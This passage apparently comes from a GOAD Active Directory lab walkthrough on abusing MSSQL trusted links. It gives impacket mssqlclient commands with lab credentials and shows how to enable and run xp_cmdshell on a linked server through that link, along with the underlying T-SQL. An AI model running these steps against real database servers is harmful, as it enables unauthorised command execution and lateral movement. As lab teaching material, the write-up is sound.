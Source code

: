 - This will work also with ntlmrelayx (like with a server running as administrator and with the same password on other servers). But on the lab, this kind of behavior is not setup by now.


### trusted links

- Another SQL abuse we could try on the lab, is the usage of mssql trusted links.

> Note that trusted link is also a forest to forest technique
{: .prompt-tip }

- To abuse the links let's connect with jon.snow and use enum_links

```bash
python3 mssqlclient.py -windows-auth north.sevenkingdoms.local/jon.snow:iknownothing@castelblack.north.sevenkingdoms.local -show
SQL (NORTH\jon.snow  dbo@master)> enum_links
```

- This play the following queries :

```sql
EXEC sp_linkedservers
EXEC sp_helplinkedsrvlogin
```

![mssql_trusted_links.png](/assets/blog/GOAD/mssql_trusted_links.png)

- As we can see a linked server exist with the name BRAAVOS and a mapping exist with the user jon.snow and sa on braavos.

- If we use the link we can get a command injection on braavos:

```
use_link BRAAVOS
enable_xp_cmdshell
xp_cmdshell whoami
```

- This play the following MSSQL commands :

```sql
EXEC ('select system_user as "username"') AT BRAAVOS
EXEC ('exec master.dbo.sp_configure ''show advanced options'',1;RECONFIGURE;exec master.dbo.sp_configure ''xp_cmdshell'', 1;RECONFIGURE;') AT BRAAVOS
EXEC ('exec master..xp_cmdshell ''whoami''') AT BRAAVOS
```
